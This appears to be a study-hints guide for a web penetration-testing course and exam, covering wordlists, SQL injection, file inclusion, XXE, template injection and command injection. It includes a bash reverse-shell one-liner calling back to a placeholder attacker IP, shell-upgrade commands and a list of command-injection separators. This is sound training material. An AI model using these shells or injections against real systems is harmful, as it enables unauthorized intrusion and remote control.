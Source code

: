 # Syllabus Related Hints
In this section I will pick a few topics out of the syllabus and give some technical hints. If you want me to give hints for other topics, create an issue.

## Tools
### Wordlists
Beside the standard Kali linux wordlists located under `/usr/share/wordlists` I think the seclists package is a premium set of wordlists which fits most needs. Especially it has lists connected to certain vulnerabilities like SQL-Injection, Local File Inclusion, 
Server-side Template Injection and so on which comes in handy for several topics of the web-200 course.
```bash
sudo apt-get install -y seclists
cd /usr/share/seclists/
```

### Shells
During the course and the exam you will have to identify/exploit different kind of vulnerabilities which might lead to some kind of remote code execution. Therefore it is always useful to get a reverse shell connecting to your kali machine instead of exploiting the 
vulnerability again and agin. For me in most cases the standard `bash` back connect shell worked great (under linux of course)
```bash
bash -c 'bash -i >& /dev/tcp/<KALI-IP>/9090 0>&1'
```

Sometimes it is useful to upgrade this shell to a fully interactive one

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
CTRL+Z
```bash
stty raw -echo; fg
```
Now you should have a fully interactive shell. This sometimes is needed when you do some kind of privilege escalation stuff. (not part of web-200)

## SQL-Injection
- `seclists` has awesome wordlists to manually detect SQL injection vulnerabilities using tools like `wfuzz` or `burpsuite`: `/usr/share/seclists/SQLi`
- one word regarding `SQLMap`: this tool is allowed during the exam
- however, in my experience `SQLMap` often fails even if there is an SQL-Injection
- I usually use `SQLMap` only after I identified the vulnerability manually and only use it to exfiltrate data when manual exfiltration is to expensive
- Therefore I parameterize `SQLMap` in a way it does not send useless requests to the target, because the tool is noisy as hell and (depending on the configuration) influences the integrity of the database
- When you identified an injection it is cruical that you have a good cheat sheet available, so you can exfiltrate data in a copy paste style
  - https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
  - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

## Directory Traversal and Local File Inclusion
- general test cases: https://zsahi.wordpress.com/2018/09/10/file-inclusion/
- useful wordlists to combine with `wfuzz` or `burpsuite`: `/usr/share/seclists/Fuzzing/LFI/`

## XML External Entity Attack
- often overlooked
- Know how to idenfitiy this kind of vulnerability
- every point where the application might parse XML is a potential dangerous sink where you can test for it
- get used to how to read files by exploiting an XXE attack "visibly" and blind
  - https://portswigger.net/web-security/xxe
  - https://portswigger.net/web-security/xxe/blind

## Server-side Template Injection
### identify
- often overlooked
- identifying is not always easy 
- you need to identify what kind of technology/framework is used on the target machine
- then it is a good idea to perform some basic tests to identify if templates are used at all and the website is vulnerable
- `seclists` provides a good wordlist to detect SSTIs: `/usr/share/seclists/Fuzzing/template-engines-expressions.txt`
- The following picture gives an overview what template engine might be in use if a certain test succeeded: https://portswigger.net/web-security/images/template-decision-tree.png

### exploit
- the exploitation impact ranges from XSS to RCE depending on the template engine used
- RCEs for apache freemarker, twig and pug/jade: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Remote Code Execution
Try to think what the target application might do in the backend when using features of the website. Does the web application maybe call an external program? When you identified a potential injection point you usually have to escape from the original command and inject your own.

### Command Seperators
- `&`
- `&&`
- `|`
- `||`
- `;` (no Windows CMD)
- `0x0a` (no Windows CMD)
- `\n` (no Windows CMD)
- ``` `whoami` ``` (no Windows CMD)
- `$(whoami)` (no Windows CMD)

### Good Reads
- https://www.hackedu.com/blog/owasp-top-10-mini-series-command-injection
- https://book.hacktricks.xyz/pentesting-web/command-injection

